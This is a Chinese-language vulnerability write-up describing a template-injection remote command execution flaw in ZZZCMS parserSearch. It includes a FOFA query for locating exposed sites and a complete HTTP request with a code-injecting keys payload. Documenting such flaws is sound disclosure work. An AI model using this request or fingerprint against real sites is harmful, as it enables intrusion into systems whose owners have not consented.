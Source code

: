 ```yaml
---
title: ZZZCMS parserSearch 远程命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - ZZZCMS
---
```


# ZZZCMS parserSearch 远程命令执行漏洞

## 漏洞描述

ZZZCMS parserSearch 存在模板注入导致远程命令执行漏洞

## 漏洞影响

> [!NOTE]
>
> ZZZCMS

## FOFA

> [!NOTE]
>
> app="zzzcms"

## 漏洞复现

发送如下请求包命令执行

![](/img/20210924015117064715.png)

```
POST /?location=search HTTP/1.1
Host: 
Content-Length: 30
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=rbuhrqqhoctntnak8slkascqp1; keys=%7Bif%3A%3DPHPINFO%28%29%7D%7Bend+if%7D%0D%0A


keys={if:=PHPINFO()}{end if}
```

执行 ping dnslog

![](/img/20210924015117380634.png)

## Goby & POC

![](/img/20210924015119974424.png)
